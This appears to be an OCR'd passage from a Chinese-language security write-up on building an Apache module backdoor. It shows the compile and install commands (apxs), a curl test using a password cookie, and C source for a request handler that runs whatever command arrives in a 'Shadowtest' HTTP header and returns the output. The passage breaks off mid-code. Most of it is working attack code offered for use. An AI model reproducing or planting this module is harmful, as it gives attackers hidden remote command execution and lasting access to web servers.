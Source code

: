 

修改密码

```
[root@vuln apache2_BackdoorMod]# vim mod_backdoor.c
#define PASSWORD "password=shadowtest"

#重新生成so文件
apt install apache2-dev
apxs -i -a -c mod_backdoor.c sblist.c sblist_delete.c server.c -Wl,-lutil

[shadowflow@ShadowOS ~]% curl -H 'Cookie: password=shadowtest' http://172.16.42.151/ping
[+] Backdoor module is running !
```



### 1.1 手动构造apache module后门

```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"
#include <stdio.h>
#include <stdlib.h>

/* The sample content handler */
static int shadowtest_handler(request_rec *r)
{

    /*~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~*/
    const apr_array_header_t    *fields;
    int                         i;
    apr_table_entry_t           *e = 0;
    char FLAG = 0;
    /*~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~*/

    fields = apr_table_elts(r->headers_in);
    e = (apr_table_entry_t *) fields->elts;

    for(i = 0; i < fields->nelts; i++) {
        if(strcmp(e[i].key, "Shadowtest") == 0){
            FLAG = 1;
            break;
        }
    }

    if (FLAG){
        char * command = e[i].val;
        FILE* fp = popen(command,"r");
        char buffer[0x100] = {0};
        int counter = 1;
        while(counter){
            counter = fread(buffer, 1, sizeof(buffer), fp);
            ap_rwrite(buffer, counter, r);
        }
        pclose(fp);
        return DONE;
    }
    return DECLINED;
}

static void shadowtest_register_hooks(apr_pool_t *p)
{
    ap_hook_handler(shadowtest_handler, NULL, NULL, APR_HOOK_MIDDLE);
```